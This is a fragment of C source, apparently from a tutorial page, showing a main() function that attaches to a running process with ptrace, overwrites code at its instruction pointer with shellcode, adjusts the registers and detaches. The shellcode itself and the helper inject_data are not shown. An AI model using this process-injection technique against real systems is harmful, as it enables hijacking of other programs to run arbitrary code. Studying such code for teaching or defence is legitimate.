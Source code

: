     int
    main (int argc, char *argv[])
    {
      pid_t                   target;
      struct user_regs_struct regs;
      int                     syscall;
      long                    dst;
    
      if (argc != 2)
        {
          fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
          exit (1);
        }
      target = atoi (argv[1]);
      printf ("+ Tracing process %d\n", target);
    
      if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
        {
          perror ("ptrace(ATTACH):");
          exit (1);
        }
    
      printf ("+ Waiting for process...\n");
      wait (NULL);
    
      printf ("+ Getting Registers\n");
      if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
        {
          perror ("ptrace(GETREGS):");
          exit (1);
        }
      
    
      /* Inject code into current RPI position */
    
      printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
      inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);
    
      regs.rip += 2;
      printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);
    
      if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
        {
          perror ("ptrace(GETREGS):");
          exit (1);
        }
      printf ("+ Run it!\n");
    
     
      if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
    	{
    	 perror ("ptrace(DETACH):");
    	 exit (1);
    	}
      return 0;
    
    }
    {% endraw %}
    ```
    